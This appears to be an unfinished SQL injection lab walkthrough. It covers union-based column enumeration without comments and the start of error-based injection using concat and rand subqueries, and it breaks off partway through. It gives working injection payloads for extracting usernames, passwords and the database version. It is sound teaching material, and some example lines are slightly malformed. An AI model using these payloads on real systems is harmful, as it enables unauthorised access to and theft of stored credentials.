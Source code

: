 # WIP LESSON 5 to

Part 5 from here

This time we're not allowed to use comments,consider there is a system which filters out the comments.

Consider our query looks like this

select id,username,password from table where id='1'.

So consider our input as 1' or '1

so it'll be,
select id,username,password from table where id='1' or '1'

So here '1' or '1' will be evaluated and 1 will be returned which will fetch all the username and password from the database but the website will only display the first row

When we give input as 1' and '1 the first page gets shown and when we give input as 2' and ' the second page gets shown because the AND operator works in sql, here it'll check if 2 is present in the table if it is it'll return true because the right side of AND is true.

lets try to enumerate the number of columns from this using order_by as earlier, but no matter what we give to order_by like order by(50) it wouldn't display any error because order by won't work without any comments(why?)

But we'll workaround this using union select 

we'll give something like 1' union select 1 AND '1, we'll get an error saying that the number of columns are different, we can use this get the number of columns in database.

1' union select 1,2,3 AND '1 -> No error , means there are 3 columns, now we have to break the right query as before so we'll inject something like this 50' union select 1,2,3 AND '1, Now we can enumerate a number of stuff like database names,version,current_user etc

50' union select 1,version(),3 AND '1

Part 6 from here

Unlike the previous levels in here we'll see that changing the id parameter, won't give us any valuable output the only thing we get is the error when mysql crashes so we somehow need to use the mysql error to our advantage.

So if we have a query like this select table_name,table_schema from information_schema.tables group by table_schema, Here we will get a table showing unique entries of table_schema(ie table names,basically what group by does).

From here on we'll be creating a bunch of sub queries.

select database();

select select(database());

select concat((select database()));

select concat(0x3a,0x3a,(select database()),0x3a,0x3a);

Here 0x3a denotes the value of colon(:) in hex.

select concat(0x3a,0x3a,(select database()),0x3a,0x3a) as a;

Adding in some randomness

select concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand()*2)) as a;








